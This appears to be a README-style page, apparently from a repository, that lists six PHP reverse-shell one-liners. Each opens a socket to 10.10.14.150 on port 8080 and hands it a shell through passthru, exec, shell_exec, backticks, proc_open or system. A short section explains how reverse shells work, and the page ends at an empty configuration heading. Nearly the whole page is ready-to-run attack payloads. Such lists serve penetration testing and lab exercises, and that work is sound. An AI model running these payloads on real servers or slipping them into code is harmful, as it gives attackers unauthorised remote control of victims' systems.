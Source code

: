### Available Payloads

#### Payload 1: Using `passthru()`
```php
php -r '$sock=fsockopen("10.10.14.150",8080);passthru("sh <&3 >&3 2>&3");'
```
**Function:** `passthru()`  
**Description:** Executes a command and passes the raw output directly to the output buffer.

#### Payload 2: Using `exec()`
```php
php -r '$sock=fsockopen("10.10.14.150",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**Function:** `exec()`  
**Description:** Executes a command and returns the last line of output.

#### Payload 3: Using `shell_exec()`
```php
php -r '$sock=fsockopen("10.10.14.150",8080);shell_exec("sh <&3 >&3 2>&3");'
```
**Function:** `shell_exec()`  
**Description:** Executes a command via shell and returns the complete output as a string.

#### Payload 4: Using Backticks
```php
php -r '$sock=fsockopen("10.10.14.150",8080);`sh <&3 >&3 2>&3`;'
```
**Function:** Backtick operator  
**Description:** Executes a command and returns the output as a string (same as `shell_exec()`).

#### Payload 5: Using `proc_open()`
```php
php -r '$sock=fsockopen("10.10.14.150",8080);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
**Function:** `proc_open()`  
**Description:** Executes a command and opens file pointers for input/output.

#### Payload 6: Using `system()`
```php
php -r '$sock=fsockopen("10.10.14.150",8080);system("sh <&3 >&3 2>&3");'
```
**Function:** `system()`  
**Description:** Executes a command and outputs the result.

### How Reverse Shells Work

1. **Socket Creation:** `fsockopen()` establishes a TCP connection to the attacker's machine
2. **Shell Execution:** A shell (`sh`) is executed on the target server
3. **I/O Redirection:** The shell's input, output, and error streams are redirected to the socket
4. **Remote Access:** The attacker can now send commands through the socket and receive responses

### Configuration Parameters
